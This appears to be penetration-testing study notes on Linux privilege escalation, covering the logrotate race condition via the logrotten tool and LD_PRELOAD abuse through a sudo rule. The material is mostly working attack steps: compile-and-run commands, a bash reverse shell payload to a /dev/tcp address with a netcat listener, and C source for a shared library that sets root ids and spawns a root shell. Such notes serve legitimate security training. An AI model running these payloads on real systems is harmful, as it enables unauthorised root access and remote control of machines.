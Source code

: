 ## Exploitation
1. **Requirements**:
   - Write permissions on log files.
   - `logrotate` must run as a privileged user.
   - Vulnerable versions: 3.8.6, 3.11.0, 3.15.0, 3.18.0.

2. **Exploit Setup**:
   - Clone and compile [logrotten](https://github.com/whotwagner/logrotten):
     ```shell
     git clone https://github.com/whotwagner/logrotten.git
     cd logrotten
     gcc logrotten.c -o logrotten
     ```

   - **Prepare Payload**:
     ```shell
     echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
     ```

   - **Start Listener**:
     ```shell
     nc -nlvp 9001
     ```

   - **Run Exploit**:
     ```shell
     ./logrotten -p ./payload /tmp/tmp.log
     ```

# LD_PRELOAD Privilege Escalation

Let's see an example of how we can utilize the [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) environment variable to escalate privileges. For this, we need a user with `sudo` privileges.

```shell
sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

This user has rights to restart the Apache service as root, but since this is `NOT` a [GTFOBin](https://gtfobins.github.io/#apache) and the `/etc/sudoers` entry is written specifying the absolute path, this could not be used to escalate privileges under normal circumstances. However, we can exploit the `LD_PRELOAD` issue to run a custom shared library file. Let's compile the following library:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
